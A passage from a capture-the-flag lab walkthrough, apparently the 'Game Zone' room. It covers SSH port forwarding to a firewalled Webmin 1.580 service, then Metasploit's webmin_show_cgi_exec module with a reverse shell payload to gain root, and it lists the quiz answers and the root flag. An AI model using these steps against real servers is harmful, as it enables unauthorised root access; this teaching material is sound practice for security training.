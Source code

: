 ```shell
agent47@gamezone:~$ ss -tulpn
Netid State      Recv-Q Send-Q   Local Address:Port        Peer Address:Port              
udp   UNCONN     0      0                    *:10000                  *:*                  
udp   UNCONN     0      0                    *:68                     *:*                  
tcp   LISTEN     0      80           127.0.0.1:3306                   *:*                  
tcp   LISTEN     0      128                  *:10000                  *:*                  
tcp   LISTEN     0      128                  *:22                     *:*                  
tcp   LISTEN     0      128                 :::80                    :::*                  
tcp   LISTEN     0      128                 :::22                    :::*         
````

**How many TCP sockets are running?**

- 5

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run ``ssh -L 10000:localhost:10000 <username>@<ip>``

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

**What is the name of the exposed CMS?**

1. visit ``localhost:10000``
2. Webmin

**What is the CMS version?**

1. login with credentials
2. 1.580

* * * 

## Task 6 - Privilege Escalation with Metasploit 

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

##   Answer the questions below

**What is the root flag?**

1. ``msfconsole``
2. ``use unix/webapp/webmin_show_cgi_exec``
3. set options and ``set SSL false``
4. ``set payload cmd/unix/reverse`` 
5. visit /root directory and cat the flag ``a4b945830144bdd71908d12d902adeee``

* * * 